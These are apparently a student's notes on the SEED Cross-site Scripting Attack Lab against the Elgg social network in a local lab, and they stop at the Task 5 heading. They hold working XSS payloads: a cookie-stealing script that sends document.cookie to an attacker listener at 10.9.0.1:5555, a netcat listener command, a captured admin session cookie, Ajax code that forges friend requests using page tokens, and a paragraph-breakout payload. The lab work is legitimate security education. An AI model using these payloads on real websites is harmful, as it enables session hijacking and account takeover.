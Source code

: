 # Cross-site Scripting Attack Lab
- Cross-site Scripting (XSS) is a type of vulnerability commonly found in web applications. XSS makes it possible for attackers to inject malicious code (e.g., JavaScript programs) into victim's web browser, and steal a victim's credentials, such as session cookies. The access control policies (i.e., the same origin policy) employed by browsers to protect those credentials can be bypassed by exploiting XSS vulnerabilities
- topics
    - XSS attack
    - XSS worm and self-propagation
    - Session cookies
    - HTTP GET and POST requests
    - JavaScript and Ajax
    - Content Security Policy (CSP)

## Lab Setup
- DNS Setup: add some entries to `/etc/hosts`
    ```
    10.9.0.5        www.seed-server.com
    10.9.0.5        www.example32a.com
    10.9.0.5        www.example32b.com
    10.9.0.5        www.example32c.com
    10.9.0.5        www.example60.com
    10.9.0.5        www.example70.com
    ```
- web application: `Elgg`, a web-based social-networking application

## Preparation: Getting Familiar with the "HTTP Header Live" tool
- we need to capture, analyze, and construct HTTP requests in this lab
- use a Firefox add-on called `HTTP Header Live`

## Task 1: Posting a Malicious Message to Display an Alert Window
- objective: embed a JS program in our `Elgg` profile, such that when antoher user views our profile, the JS program will be executed and an alert window will be displayed
- use this JS program: `<script>alert('XSS');</script>`
- login with Alice's account, user name: `aclie`, password: `seedalice`
- Edit profile, and put the code in the brief description
- Go to the profile page, an alert is prompted
- if the JS program is too long, we can store the program in a standalone file, save it with `.js` extension, and then refer to it using the `src` attribute in the `<script>` tag
    ```
    <script type="text/javascript"
            src="http://www.example.com/myscripts.js">
    </script>
    ```

## Task 2: Posting a Malicious Message to Display Cookies
- use `<script>alert(document.cookie);</script>`
- then the script will print out the cookie: `Elgg=ugsb0ln5ip0ng59ftrph6nlvhb`

## Task 3: Stealing Cookies from the Victim's Machine
- in previous task, the attacker can print out the user's cookies, but only the user can see their own cookies, in this task, we want the JS code to send the cookies to us, e.g., the JS code needs to send an HTTP request to the attacker, with the cookies appended to the request
- we can do this by having the malicious JS insert an `<img>` tag with its `src` attribute set to the attacker's machine, when the JS insert the `img` tag, the browser tries to load the image from the URL in the `src` field, this result in an HTTP GET request sent to the attacker's machine
- code, `escape` is used to encode a string by replacing certain characters, e.g., spaces, punctuation, and non-ASCII characters with `%` followed by two hexadecimal digits
    ```
    <script>
        document.write('<img src=http://10.9.0.1:5555?c=' + escape(document.cookie) + '>');
    </script>
    ```
- on the attacker machine: `nc -lknv 5555`, this makes the attacker machine a TCP server that listens for a connection on port `5555`
    - `-l` listen
    - `-nv` give more verbose output
    - `-k` when a connection is completed, listen for another one

- after injecting the code into Alice's profile, login as admin (user name `admin`, password `seedadmin`), and open Alice's profile, we will see the following content on the attacker's machine, we can see that the admin's cookie is `Elgg=o66op359c58nrdshhjg1qurb3e`
    ```
    Connection received on 10.0.2.15 35640
    GET /?c=Elgg%3Do66op359c58nrdshhjg1qurb3e HTTP/1.1
    Host: 10.9.0.1:5555
    User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:83.0) Gecko/20100101 Firefox/83.0
    Accept: image/webp,*/*
    Accept-Language: en-US,en;q=0.5
    Accept-Encoding: gzip, deflate
    Referer: http://www.seed-server.com/profile/alice
    Connection: keep-alive
    ```

## Task 4: Becoming the Victim's Friend
- this attack is similar to what Samy did to MySpace in 2005 (i.e., the Samy Worm), we will write an XSS worm that adds Samy as a friend to any other user that visits Samy's page, this worm doesn't self-propagate, but in task 6 it does
- write a JS program that forges HTTP requests directly from the victim's browser
- use HTTP Header Live to see what are sent to the server when a user adds a friend, it is actually a GET request with some parameters in the URL (the duplicated fields removed), this is what the URL looks like when Samy adds Charlie
    - `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707036879&__elgg_token=yZAhDB7Dz7s7oA7LwQjmhA` 
- login as Alice and add Charlie
    - `http://www.seed-server.com/action/friends/add?friend=58&__elgg_ts=1707037676&__elgg_token=Gf3XT1cdnWD_wIQy4idzBQ`

- we can find that the parameter `friend` is the number of the user who is added (it is `59` for Samy, `58` for Charlie), but `__elgg_ts` and `__elgg_token` are changing, to launch the attack, we need to find a way to get the value of `__elgg_ts` and `__elgg_token` in the code
- if we inspect the element of the page, we can find `__elgg_ts` and `__elgg_token` in the `security.token` field of the variable `elgg`, so we can get their value using `elgg.security.__elgg_token` and `elgg.security.__elgg_ts`
- the malicious code
    ```
    <script type="text/javascript">
        window.onload = function () {
            var Ajax=null;
            var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
            var token="&__elgg_token="+elgg.security.token.__elgg_token;
            var sendurl="http://www.seed-server.com/action/friends/add?friend=59"+ts+token;
            Ajax=new XMLHttpRequest();
            Ajax.open("GET", sendurl, true);
            Ajax.send();
        }
    </script>
    ```
- login as another user, e.g., Charlie, then open Samy's profile, and refresh the page, we can see that Charlie becomes a friend of Samy

- what if the web application only provide the Editor mode for the `About Me` field, i.e., we cannot switch to the Text mode, can we still launch a sucessful attack?
    - if we directly put the code in `About Me` field, it will not work
    - after entering some content, e.g., `xyz`, click `Edit HTML`, we can see that the actual content is `<p>xyz</p>`, the content we input will be treated as a segment of text, we can bypass this by using the following payload
        - `</p><script>alert('XSS');</script><p>`
        - HTML code in browser
            ```
            <p></p>
            <script>alert('XSS');</script> <---- JS code
            </p><p>
            ```
## Task 5: Modifying the Victim's Profile

